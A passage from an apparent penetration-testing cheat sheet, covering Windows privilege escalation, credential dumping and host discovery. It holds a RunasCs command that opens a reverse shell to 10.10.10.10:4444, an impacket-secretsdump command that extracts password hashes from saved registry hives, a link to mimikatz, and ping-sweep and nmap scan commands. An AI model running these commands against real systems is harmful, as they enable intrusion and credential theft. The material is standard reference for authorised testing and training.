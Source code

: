 #### Privilege Escalation

- [Windows elevation of privileges](https://guif.re/windowseop)
- [local_exploit_suggester.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/recon/local_exploit_suggester.md)

Identify process Windows

```bat
:: netstat -> tasklist
netstat -ano | findstr TCP | findstr ":0"
:: =>   TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820

tasklist /v | findstr 2820
:: => CloudMe.exe                   2820                            0     37,444 K Unknown         N/A                                                     0:00:00 N/A
```

- [RunasCs.exe](https://github.com/antonioCoco/RunasCs) - The binary link: [v1.5](https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip)

```cmd
RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
```

- [PrivescCheck](https://github.com/itm4n/PrivescCheck) - Privilege Escalation Enumeration Script for Windows
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

#### Credential Access & Dumping

- [Dumping and Cracking mscash - Cached Domain Credentials - Red Teaming Experiments](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials#secretsdump)
- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) - A little tool to play with Windows security

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL -outputfile hash
```

#### Host Discovery

Ping Sweep

```bash
base="192.168.0"; seq 1 254 | xargs -P 100 -I {} sh -c "ping -W 2 -c 2 $base.{} 2>/dev/null 1>&2 && echo $base.{}"
```

Nmap ping scan `-sn` option

```bash
nmap -sn --min-rate 5000 192.168.0.0/24
```

#### Port Forwarding
